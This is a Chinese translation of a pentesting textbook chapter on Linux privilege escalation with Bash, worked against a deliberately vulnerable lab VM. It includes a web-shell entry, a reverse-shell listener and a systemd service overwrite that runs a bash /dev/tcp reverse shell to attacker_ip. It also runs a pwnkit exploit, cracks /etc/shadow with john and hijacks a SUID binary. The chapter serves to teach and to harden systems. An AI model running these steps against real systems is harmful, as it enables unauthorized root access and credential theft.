

# 第十一章：Bash Shell 中的特权提升

**特权提升**是 Unix 和 Linux 环境中渗透测试的关键环节。本章探讨了识别和利用漏洞的技巧和方法，这些漏洞允许攻击者在系统中提升其权限。我们将重点介绍利用 Bash Shell 这一大多数 Unix 系统中都存在的强大工具，来执行各种特权提升策略。

在本章中，我们将研究常见的**特权提升向量**，编写 Bash 脚本进行系统枚举，并分析服务和计划任务中的配置错误的利用。我们将特别关注理解和利用**设置用户 ID**（**SUID**）和**设置组 ID**（**SGID**）二进制文件，这些文件常常提供特权提升的机会。通过掌握这些技巧，渗透测试人员可以有效评估并提高 Unix 和 Linux 系统的安全态势。

本章仅涵盖最常见的特权提升向量。欲了解更详细的列表并下载 LinPEAS 工具以自动执行这些检查，请访问 HackTricks 网站上的 Linux 特权提升检查表：[`book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist`](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist) 。

虽然 LinPEAS 应用程序可以帮助你找到特权提升攻击向量，但随着更多 Linux 系统使用某种形式的**端点检测与响应**（**EDR**）保护代理，学习手动执行这些操作将变得愈加重要。这些 EDR 代理可能会检测并阻止像 LinPEAS 这样的脚本，迫使你手动进行这些检查。

在本章中，我们将涵盖以下主要主题：

+   理解 Unix/Linux 系统中的特权提升

+   特权提升的枚举技巧

+   利用 SUID 和 SGID 二进制文件进行 Bash 特权提升

+   利用配置错误的服务和计划任务

# 技术要求

本章的代码可以在以下链接找到：[`github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter11`](https://github.com/PacktPublishing/Bash-Shell-Scripting-for-Pentesters/tree/main/Chapter11) 。

如果你想跟着练习，你应该有一台可用的 Kali 虚拟机，并且需要下载并运行`ESCALATE_LINUX`虚拟机，链接：[`www.vulnhub.com/entry/escalate_linux-1,323/`](https://www.vulnhub.com/entry/escalate_linux-1,323/) 。确保 Kali 和`ESCALATE_LINUX`虚拟机使用相同的虚拟网络配置。

运行以下命令以在 Kali 中安装所需工具：

```
 $ sudo apt update && sudo apt install -y dirsearch
```

# 理解 Unix/Linux 系统中的特权提升

Unix/Linux 系统中的权限提升是指获得比初始授予的用户或应用程序更高级别的访问权限的过程。这个概念是系统安全的基础，也是系统管理员和渗透测试人员的重点关注领域。

在 Unix/Linux 环境中，权限系统主要基于用户和组权限。root 用户（用户 ID 为 **0**）具有对整个系统的无限制访问权限。普通用户的权限有限，通常仅限于他们的主目录和特定的系统资源。

权限提升可以分为两种主要类型：

+   **垂直权限提升**：这涉及将权限从较低级别用户提升到更高级别用户，通常是针对 root 权限。例如，一个普通用户获取 root 权限。

+   **水平权限提升**：当用户获得应该只限于同一权限级别的其他用户的资源访问或执行限制操作时，发生这种情况。例如，一个普通用户访问另一个普通用户的文件。

Unix/Linux 系统中的权限提升常见路径包括以下几种：

+   利用系统服务或应用程序中的漏洞

+   文件或目录权限配置错误

+   弱密码策略或被泄露的凭证

+   内核漏洞

+   未修补的软件漏洞

在深入讨论权限提升的常见路径之前，首先需要回顾 Unix/Linux 的权限模型。理解 **Unix/Linux 权限模型** 对于掌握权限提升的概念至关重要：

+   文件权限通过读取（**r**）、写入（**w**）和执行（**x**）标志来表示，适用于所有者、组和其他用户。

+   特殊权限如 `SUID`、`SGID` 和 `Sticky Bit` 也可能影响权限级别。

+   用户和组管理，包括 `/etc/passwd` 和 `/etc/shadow` 文件，在访问控制中起到作用

权限提升技术通常涉及信息收集、漏洞识别和利用的结合。攻击者可能通过多重漏洞或配置错误的链式攻击，逐步增加其访问权限。

需要注意的是，权限提升本身并非恶意。系统管理员和安全专家使用这些技术来识别和解决安全漏洞。然而，恶意行为者使用这些技巧时，权限提升可能导致未经授权的访问、数据泄露和系统泄漏。

防止意外权限提升的预防措施包括：

+   定期的系统更新和补丁管理

+   文件和目录权限的正确配置

+   实施最小权限原则

+   使用 **安全增强的 Linux**（**SELinux**）或 `AppArmor`

+   定期的安全审计和漏洞评估

理解权限提升对防御和进行 Unix/Linux 系统渗透测试至关重要。这为本章后续部分将探讨的更高级技巧和漏洞利用奠定了基础。

下一部分将探讨如何执行枚举。

# 权限提升的枚举技巧

**枚举**是权限提升的关键阶段，它允许渗透测试人员收集有关目标系统的信息。本节重点介绍 Bash 命令和技巧，以有效进行系统枚举来实现权限提升。

## 初始访问

本节将先于权限提升部分进行。它涵盖了如何连接到`ESCALATE_LINUX`虚拟机，我们将在本章其余部分中称之为*目标*。一旦建立了有效的 shell 连接，我们将进入后续部分。

在这个练习中，我同时在 VirtualBox 虚拟机中运行 Kali 和目标系统。Kali 和`ESCALATE_LINUX`都提供了可以下载并导入到 VirtualBox 中的虚拟机 OVA 文件。

网络接口配置为使用仅主机网络适配器，如下图所示：


图 11.1 – 虚拟网络接口配置

Kali 虚拟机应添加一个额外的虚拟网络接口。在两个 Kali 虚拟网络接口中，一个应该处于**仅主机**模式，另一个应该处于**桥接**模式，如下图所示：


图 11.2 – Kali VirtualBox 网络接口配置

此配置将使脆弱的目标系统与网络隔离，同时允许 Kali 系统连接到互联网以下载所需的工具。

如果你在识别 Kali 的哪个网络接口连接到每个网络模式时遇到困难，下面图示的命令输出应该能帮助你解决这个问题：


图 11.3 – 枚举虚拟网络接口

从 Offensive Security 下载的 Kali VirtualBox 虚拟机（[`cdimage.kali.org/kali-2024.2/kali-linux-2024.2-virtualbox-amd64.7z`](https://cdimage.kali.org/kali-2024.2/kali-linux-2024.2-virtualbox-amd64.7z)）已经安装了来宾扩展，这将允许你查询网络接口并获取其 IP 地址。在前图中，第一个**网络接口卡**（**NIC**）配置为**仅主机**访问模式，目标系统也是如此。不幸的是，目标系统没有安装 VirtualBox 来宾扩展；因此，我们无法查询其 IP 地址信息，只能依赖 Kali。

此外，前述图中的第二个和第三个命令仅在虚拟接口的编号上有所不同。`NIC 1` 对应 `/VirtualBox/GuestInfo/Net/0/V4/IP` ，而 `NIC 2` 对应 `/VirtualBox/GuestInfo/Net/1/V4/IP` 。由于 `NIC 1` 配置为 `Host-only` 并且其 IP 地址为 `192.168.56.101` ，我们可以推测目标系统也位于此网络中。接下来，让我们扫描该网络，寻找监听 TCP 端口 `80`（HTTP）的 IP 地址，如下所示：


图 11.4 – 扫描网络以定位 HTTP 服务器

如果我们在网页浏览器中访问该地址，我们会看到一个 Apache2 默认页面，如下所示：


图 11.5 – 默认的 Apache2 页面

由于我们仅找到一个默认的网站，我们需要检查是否有其他的 Web 内容。运行以下 `dirsearch` 命令：

```
 $ dirsearch -u http://192.168.56.102
```

输出显示 `shell.php` ，如下图所示：


图 11.6 – 找到了有效的 PHP 网页

如果我们在 Kali 上的网页浏览器中访问 [`192.168.56.102/shell.php`](https://192.168.56.102/shell.php)，我们会看到网页上显示以下文本： `/*pass cmd as** **get parameter*/` 。

这是一个我们通常不会得到的巨大线索，因此请记住，我们已经获得了一个查找漏洞的捷径，这样我们就可以将宝贵的时间集中在特权升级上，这是目标系统的意图所在。

接下来的图示展示了如何正确利用这个网页：


图 11.7 – Web shell 漏洞利用概念验证

接下来，我们需要在目标系统上获得一个 shell。在你的 Kali 终端中，输入 `nc -nlvp 4444` 并按下 *Enter* 键。

访问 *Reverse Shell Cheat Sheet* [`pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet`](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) 。我们将使用 Python 版本。复制 Python shell 代码，然后访问 CyberChef 网站 [`gchq.github.io/CyberChef/#recipe=URL_Encode(true)`](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true))，并将 Python 代码粘贴到 `Input` 面板中。将要执行的 Python 命令从 `/bin/sh` 更改为 `/bin/bash` 。将 IP 地址和端口更改为与你在 Kali 系统上使用的相匹配。对于端口，你可以使用 `4444` 。点击 `Output` 面板中的 `Copy` 按钮。

在你的网页浏览器中打开目标 `shell.php` ，然后将 Python 代码粘贴到 `cmd=` 后面，如下图所示，接着按下 *Enter* 键：


图 11.8 – 在 Web shell 中执行 Python 载荷

在你的 Kali 终端中，你应该会看到一个反向 shell 连接，如下所示：


图 11.9 – 来自目标系统的反向 shell

现在我们已经建立了会话，让我们继续并开始在下一节中探索目标。

## 系统信息收集

一旦我在 Linux 系统上获得了一个 shell，首先想知道的是我是否可以使用`sudo`运行任何命令。输入以下命令来检查你的`sudo`权限：

```
 $ sudo -l
```

不幸的是，我们在目标系统上被要求输入密码。由于我们不知道此用户帐户的密码，因此这是一条死胡同。如果我们知道密码，我们可以输入它，并且如果运气好的话，命令输出可能会显示我们可以使用`sudo`运行某个命令，并可能利用它提升权限。

提示

如果你输入`sudo -l`命令并得到任何输出，表明你可以使用`sudo`运行任何命令，请在*GTFOBins*网站（[`gtfobins.github.io`](https://gtfobins.github.io)）上搜索该命令，查看是否可以滥用它进行权限提升。

让我们在当前目录`/var/www/html`中看看。我们检查该目录中的文件是否包含任何凭据。然而，如下图所示，我们并没有运气：


图 11.10 – 检查当前工作目录中的文件

接下来，我们查看一下我们的主目录。使用`cat`命令检查此用户之前输入的任何命令，使用以下命令：

```
 $ cat /home/user6/.bash_history
```

在查看我们的主目录时，确实发现了一些有趣的信息，如下所示：


图 11.11 – 表示此用户具有 sudo 权限的文件

突出的文件表明此用户曾经运行过`sudo`命令。由于不知道用户的密码，我们无法运行`sudo -l`来查明他们可以用`sudo`运行什么命令。

我们能否查看其他用户的`.bash_history`文件？输入以下命令来检查：

```
 $ find /home -name .bash_history 2>/dev/null -exec cat {} +
```

前面的命令在`/home`目录上运行`find`命令，查找文件名（**-name**）为`.bash_history`的文件。错误（**文件描述符 2**）被发送到`/dev/null`，从而被丢弃。任何与此模式匹配的文件都会打印到屏幕上（**-exec cat {} +**）。我们得到的输出比查看当前用户的`.bash_history`文件时要多得多，但在命令行参数的输出中没有找到任何凭证。然而，值得回头检查每个用户的`.bash_history`文件，并记录下谁运行了什么命令。一旦我们获得更多的信息，这些信息通常会很有用。由于我们可以访问多个用户的家目录，请务必花时间探索这些目录，寻找任何包含有用信息的文件。

接下来，让我们看看系统架构，并寻找内核漏洞。了解系统的架构、内核版本和发行版有助于识别潜在的漏洞。以下命令打印该信息：

```
 $ uname -a
```

以下截图显示了该命令在目标系统上的输出。它揭示了目标系统正在运行 Ubuntu Linux，内核版本为`4.15.0-45-generic`，架构为`x86_64`。


图 11.12 – 命令输出显示目标操作系统的基本信息

要获取特定的操作系统信息，请尝试以下命令：

```
 $ cat /etc/lsb-release
$ cat /etc/os-release
```

目标系统上的命令输出如下：


图 11.13 – 枚举操作系统版本信息

接下来，我们将根据关于目标操作系统和内核版本的信息，检查是否有提权漏洞。在你的 Kali 终端中，输入以下命令：

```
 $ searchsploit -s "4.15" --id
```

以下是解释：

+   `searchsploit` : 允许你使用一个或多个术语在`Exploit-DB`中搜索漏洞和 shellcode

+   `-s` : 严格搜索

+   `--id` : 显示`EDB-ID`值，而不是本地路径

`searchsploit`的输出如下图所示：


图 11.14 – 使用 searchsploit 的演示

提示

我建议你查看`searchsploit`的`man`页面。这里有一些非常有用的功能，例如能够检查（**-x**）内容，并将漏洞镜像（**-m**）到当前目录。

基于内核版本和目标系统运行 Ubuntu `18.04` 的知识，我们应该研究`polkit** / **pwnkit` 漏洞（**CVE-2021-4034**）。该漏洞已在`polkit`版本`0.120`中修复。以下图示为此漏洞的`searchsploit`命令输出：


图 11.15 – searchsploit 搜索结果显示 polkit 漏洞

我们可以使用以下命令列举`polkit`版本：

```
 $ pkexec --version
```

以下图所示的输出显示目标系统的`polkit`版本存在漏洞：


图 11.16 – pkexec --version 命令揭示目标系统存在漏洞

在尝试利用漏洞之前，我们使用`which gcc`命令检查是否安装了 GCC 编译器。我们发现它已经安装。

我们运行`searchsploit -m 50689`命令，将漏洞代码复制到当前目录。检查该文件的文本，我们发现它包含两个文件的代码，`evil-so.c`和`exploit.c`。

重要提示

在未经检查源代码并确认其中没有恶意内容之前，绝对不要盲目运行漏洞代码和第三方脚本，以免以意外方式利用你或你客户的系统！

由于这个漏洞代码的来源是*Exploit-DB*（**searchsploit**），它是安全的，因为`Offensive Security`在发布漏洞提交之前会对其进行审核。

我们可以将漏洞和脚本传输到目标系统。在 Kali 系统上，创建一个名为`share`的新目录（**mkdir**）。我们永远不希望将我们的主目录或包含敏感信息的任何位置共享到网络。切换到`share`目录（**cd share**），将任何漏洞或脚本复制到该目录，然后启动一个 Python HTTP 服务器，命令如下：`python3 -m http.server`。

在目标系统上，切换到`/tmp`目录（**cd /tmp**）。该目录对所有用户是可写的。`/dev/shm`目录通常也对所有用户是可写的。然后，使用`wget http://192.168.56.11:8000/filename`命令从 Kali 传输文件。当然，请确保根据你的系统修改 IP 地址和文件名。在运行之前，别忘了使你的漏洞或脚本可执行（**chmod +x**）！

在目标系统上，按照下图所示编译漏洞代码：


图 11.17 – 编译 polkit 漏洞代码

上图中的输出只是警告，我们使用`ls -l`命令检查文件，发现它们实际上已经被编译。我们通过运行`chmod +x filename`命令更改文件权限，使其可执行，然后运行该漏洞。以下图展示了漏洞的实际操作：


图 11.18 – 运行 polkit 漏洞代码后获得 root shell

尽管我们拥有 `root` 权限，但我们需要建立某种持久性。我 `cat` 了 `/etc/shadow` 文件，其中包含密码哈希，然后将副本保存到我的 Kali 系统。我随后尝试使用 `john shadow` 命令破解哈希。成功破解了 `root` 密码，如下图所示，我们发现 `root` 密码是 `12345`。拥有 `root` 密码后，如果我们断开连接，仍然可以继续以 `root` 身份访问该系统：


图 11.19 – 使用 john 破解 root 密码

为了学习目的，假设我们没有找到这个漏洞，我们将继续枚举系统中的权限提升路径。

接下来，我们需要测试 `user6` 路径中的可写目录。如果我们在路径中发现任何可写目录，可能就能劫持并替换其内容。为此，我们将使用以下脚本，该脚本可以在本章的 GitHub 仓库中找到，名为 `ch11_checkpath.sh`：

```
 #!/usr/bin/env bash
# Get the PATH environment variable
path_dirs=$(echo $PATH | tr ':' '\n')
```

上述代码以熟悉的 shebang 行开始。`PATH` 环境变量被展开，然后每个冒号都被替换为换行符，使数据变成每行一个目录。然后，这些数据被分配给 `path_dirs` 变量。

```
 # Function to check write permissions recursively
check_permissions() {
  local dir=$1
  echo "[i] Checking write permissions for $dir and its subdirectories:"
  find "$dir" -type d | while read subdir; do
    if [ -w "$subdir" ]; then
      echo "[!] $subdir is writable!"     else
      echo "[-] $subdir is not writable"
    fi
  done
}
```

上述代码块递归检查每个目录是否可写。

```
 # Loop through each directory in PATH and check write permissions recursively
for dir in $path_dirs; do
  if [ -d "$dir" ]; then
    check_permissions "$dir"
  fi
done
```

上述代码块遍历 `path_dir` 变量中的目录列表，并将每个目录传递给 `check_permissions` 函数。

我们在目标上运行此脚本，但未发现任何可写目录，如下图所示：


图 11.20 – 检查 PATH 中的可写目录

接下来，我们使用以下命令检查环境变量中是否包含凭据、密钥或其他有趣的数据：

```
 $ env
```

输出如下：


图 11.21 – 显示的环境变量

不幸的是，我们在环境变量中没有找到任何有趣的数据。

接下来，我们将探索正在运行的进程。`pspy` 工具允许我们在不是 `root` 用户的情况下监控运行的进程：[`github.com/DominicBreuker/pspy`](https://github.com/DominicBreuker/pspy)。

将 `pspy64` 转移到目标系统后，我们运行它，并在输出中看到了一些有趣的内容，如下图所示：


图 11.22 – 在 pspy64 输出中运行的有趣可执行文件

我们检查了 `/home/user4` 中的这些文件，发现我们没有写入权限，如下图所示：


图 11.23 – 检查 user4 的家目录中的文件

最后，让我们检查一些常见的文件权限。在目标系统上运行以下命令：

```
 $ ls -l /etc/passwd
$ ls -l /etc/shadow
```

当然，我们在这里并没有运气，我们无法写入这些文件，也无法从 `/etc/shadow` 读取密码哈希，但检查一下总没坏处。

本节提供了检查常见文件系统路径的入门，并介绍了如何枚举内核和操作系统版本，搜索有效的漏洞。下一节，我们将探索 SUID 和 SGID 二进制文件，以及它们如何用于特权升级。

# 使用 Bash 利用 SUID 和 SGID 二进制文件

SUID 和 SGID 是类 Unix 系统中的特殊权限，允许用户以文件所有者或组的权限执行文件。当被滥用时，这些权限可能导致特权升级。本节将重点介绍如何使用 Bash 命令和脚本识别和利用 SUID/SGID 二进制文件。

在前面的章节中，你学习了 Linux 文件权限。让我们快速回顾一下，然后基于这个概念深入理解 SUID 和 SGID。

如果我们输入 `ls -l` 命令并查看 `shell.php` 文件的输出，我们会发现以下内容：

```
 -rw-r--r-- 1 root root    68 Jun  4  2019 shell.php
```

让我们来分解一下。第一个字符总是 `-` 表示文件，或者 `d` 表示目录。在下图中，我已突出显示文件类型。由于此图中的文件类型是一个破折号（**-**），我们知道这是一个文件：


图 11.24 – 文件类型已突出显示，显示它是一个文件，而不是目录

在下图中，用户权限已突出显示。如果你记得，当三个权限都设置时（读取、写入和执行），它们的总和为 `7` （*4 + 2 + 1 = 7*）。在这种情况下，由于文件不可执行，用户权限的总和为 `6` （*4 + 2 + 0 = 6*）：


图 11.25 – 用户权限已突出显示

以下图所示，检查了组权限。该文件可读取，但不可写入或执行。组权限的总和为 `4` （*4 + 0 + 0 = 4*）：


图 11.26 – 组权限已突出显示

以下图所示，检查了其他权限。如果你不是文件权限中列出的用户或组成员，那么适用*其他*权限：


图 11.27 – 其他权限已突出显示

在下图中，`root` 用户是文件所有者：



图 11.28 – 文件用户所有权显示为 root

*root* 组对该文件具有组权限，如下图所示：


图 11.29 – 组所有权属于 root 组

Linux 特殊文件权限超出了基本的读取、写入和执行权限。两个关键的特殊权限是 SUID 和 SGID 位：

+   `SUID`：当应用于可执行文件时，SUID 使文件以文件拥有者的权限运行，而不是执行它的用户的权限。它在文件拥有者的执行权限字段中表示为 `s`。

    要设置 SUID，请输入此命令：`chmod** **u+s filename`。

    要使用数字表示法设置 SUID，请输入此命令：`chmod** **4000 filename`。

    在检查文件权限时，下面的图展示了一个具有 SUID 权限的文件权限：


图 11.30 – 文件权限显示它是 SUID

+   `SGID`：SGID 的工作方式类似于 SUID，但适用于组。当设置在可执行文件上时，它会以文件所属组的权限运行。在目录上设置时，它会使在该目录中创建的新文件继承父目录的组。

    要设置 SGID，请输入此命令：`chmod** **g+s filename`。

    要使用数字表示法设置 SGID，请输入此命令：`chmod** **2000 filename`。

    在检查文件权限时，下面的图展示了一个具有 SGID 权限的文件权限：


图 11.31 – 文件权限显示它是 SGID

这些权限在多个方面与权限提升相关。如果一个由 `root` 拥有的易受攻击的 SUID 二进制文件被利用，可能会导致权限提升。SGID 与 SUID 类似，只是它提升的是特定组的权限。如果攻击者能够修改这些二进制文件，他们可以插入恶意代码，以提升的权限执行。可执行文件上的不必要的 SUID 或 SGID 位增加了攻击面。

要查找 SUID 和 SGID 二进制文件，请使用以下 Bash 命令：

```
 # Find SUID binaries
$ find / -perm -u=s -type f 2>/dev/null
# Find SGID binaries
$ find / -perm -g=s -type f 2>/dev/null
```

这些命令从顶级目录 `/` 开始，搜索整个文件系统，查找具有 SUID（**-u=s**）或 SGID（**-g=s**）位的文件（**-type f**）。`2>/dev/null` 表达式将错误信息重定向到 `/dev/null`，从而抑制权限拒绝错误。`/dev/null` 文件实际上是一个垃圾桶，底部是一个黑洞。任何发送到这个特殊位置的数据都会被丢弃。

让我们在目标系统上运行这些命令并比较输出。下面的图展示了搜索 SUID 文件命令的部分输出：


图 11.32 – SUID 文件列表的部分输出

在目标系统的输出中，在用户的主目录下找到了两个有趣的匹配项。如下图所示：


图 11.33 – 从我们的搜索中检查到的特定 SUID 文件

查看 `/home/user3/shell` 文件，我们运行 `file` 命令，发现它是一个编译过的可执行文件，如下图所示：


图 11.34 – 在 shell 上使用 `file` 命令显示它是一个编译过的 ELF 可执行文件

有一些 Linux 调试程序可以追踪执行并打印系统和库调用。然而，我们不需要将其复杂化。如果我们运行 `strings` 命令（**strings /home/user3/shell**），我们会发现它引用了一个文件 `./.script.sh`，如下图所示：


图 11.35 – `strings` 命令的输出显示它调用了一个 shell 脚本文件

我检查了这个文件的内容，发现它只是一个嘲弄，不包含任何有用的信息。然而，我在 `strings` 输出中看到通过相对路径调用了 `.script.sh` 文件，路径为 `./.script.sh`。这意味着它并没有调用 `/home/user3/.script.sh` 的绝对路径，而是相对于当前工作目录调用它。我们可以 `cd` 到 `/tmp` 目录，创建一个恶意版本的 `.script.sh`，然后执行 `/home/user3/shell`，这将调用本地的 `.script.sh` 副本，因为我们没有权限修改原始文件。

以下图示例展示了利用 `/home/user3/shell` SUID 文件获取 root shell 的过程：


图 11.36 – 利用 SUID 文件获取 root 权限

现在你已经了解了 SUID 和 SGID 可执行文件可能带来的危害，接下来我们来讨论如何保护它们以防止被利用。如果我们检查文件权限，会看到 *其他用户* 可以读取和执行，如下图所示：


图 11.37 – 检查 SUID shell 文件的权限

目前它的文件权限为数字 `4755`。为了保持 SUID 设置，并保护该文件不被非 `root` 用户或不在 `root` 组中的用户执行，我们可以使用以下命令来修复：

```
 $ chmod 4754 /home/user3/shell
```

输入此命令后，你可以在以下图示中看到，除了 `root` 或属于 `root` 组的用户之外，其他人将无法再执行该文件：


图 11.38 – 输入 `chmod` 命令修复这个易受攻击的 SUID 文件

以上内容是关于利用和保护 SUID 和 SGID 可执行文件的介绍。在下一部分，你将学习如何枚举和利用配置错误的服务和计划任务。

# 利用配置错误的服务和计划任务

在网络安全中，了解如何列举、利用和保护 Linux 系统上配置错误的服务和 cron 作业至关重要。本节将通过 Bash 脚本引导您完成这一过程，提供实用的示例和解释。

`Systemd` 是 Linux 操作系统的系统和服务管理器。它负责初始化系统、管理系统进程并处理系统服务。Systemd 服务是定义各种应用程序和进程如何启动、停止和管理的重要组件。

Systemd 服务由单元文件定义，单元文件是描述如何管理服务或进程的配置文件。这些单元文件通常具有 `.service` 扩展名，并位于 `/etc/systemd/system/` 或 `/lib/systemd/system/` 等目录中。每个服务单元文件包含几个部分，指定服务的行为。

首先，我们需要列出系统上所有活动的服务。可以使用 `systemctl` 命令实现，如下所示：

```
 $ systemctl list-units --type=service --state=active
```

此命令列出了系统上所有活动的服务。

接下来，我们需要检查这些服务的权限，以识别任何配置错误。

可写服务文件可以通过修改它们来执行恶意代码。以下命令会在 `systemd` 目录中搜索可写文件：

```
 $ find /etc/systemd/system/ -type f -writable
```

此命令的输出不会返回目标系统的任何结果。但是，让我们继续并学习如何修改可写的服务文件，如果在渗透测试中找到一个文件的话。如果发现一个可写服务文件，可以修改它来执行反向 shell。

这是修改可写服务文件的示例（将 `attacker_ip` 替换为您的 Kali 系统中的适当值）：

```
 $ echo "[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" > /etc/systemd/system/vulnerable.service
```

在您的 Kali 系统上执行以下命令，以准备接收反向 shell：

```
 $ nc -nlvp 4444
```

然后，重新加载 systemd 管理器配置，如下所示：

```
 $ systemctl daemon-reload
```

重启易受攻击的服务，如下所示：

```
 $ systemctl restart vulnerable.service
```

这样应该会收到来自目标的反向 shell。

现在，您已经学会了如何列举和利用易受攻击的服务，让我们继续深入探讨 **cron 作业**。

Cron 作业是计划任务，在类 Unix 操作系统中会在指定的时间间隔内自动运行。它们由 **cron 守护进程** 管理，后者是一个在后台执行命令的进程，根据预定的时间和日期执行命令。在网络安全中，cron 作业对于自动化常规任务、监控系统和维护安全协议非常有价值。如果配置错误，cron 作业可能会被利用。

以下 Bash 命令用于检查 Linux 系统上的计划任务，特别是识别与 cron 作业和计划任务相关的潜在权限提升机会：

```
 $ cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

通过运行此命令，您可以查找系统上所有已配置的计划任务（`cron` 作业，`at` 作业和 `anacron` 作业），排除任何被注释掉的行。

该命令在目标系统上的输出如以下图所示：


图 11.39 – 检查计划任务命令的输出

从图中可以看到，`autoscript.sh` 正在以 `root` 身份运行。

`autoscript.sh` 条目也在本章早些时候被发现，如下所示的 `pspy64` 命令输出：


图 11.40 – pspy64 命令输出显示 autoscript.sh 作为 root 运行

我们检查 `autoscript.sh` 文件的内容，以了解它执行的操作，如下图所示：


图 11.41 – 检查 autoscript.sh 的内容以了解其目的

我们看到根据注释，它似乎不完整。然而，它确实执行了一个带有 `bash -** **i` 命令的交互式 shell。

在检查文件权限时，我们发现 `user6` 没有权限写入该文件，并且该文件不是 SUID 文件：


图 11.42 – 检查 autoscript.sh 文件权限

从这个角度来看，我们需要拥有 `user4` 的 shell 或获取该账户的密码，才能利用此权限提升向量。在这个场景中，我们两者都没有。

安全配置易受攻击的服务和 cron 任务的方式与我们之前保护 SUID 和 SGID 可执行文件的方法相同，即通过检查文件权限，确保未经授权的用户无法编辑或执行它们。

通过遵循这些步骤，你可以使用 Bash 脚本枚举和利用 Linux 系统中配置错误的服务和 cron 任务。了解这些漏洞有助于提高系统的安全性，防范潜在的攻击。

# 总结

本章致力于探索在渗透测试场景中通过 Bash shell 实现权限提升的技术和策略。它专注于识别和利用系统漏洞和配置错误，这些漏洞和配置错误可能导致在 Linux Bash 环境中获得提升的权限。

Linux 系统常用于提供 Web 应用服务。了解如何提升权限对渗透测试人员而言是非常有价值的，特别是在他们利用 Web 应用漏洞并获得低权限 shell 后。

下一章将探讨在 Linux Bash 环境中的后渗透持久性和 pivoting 技术。
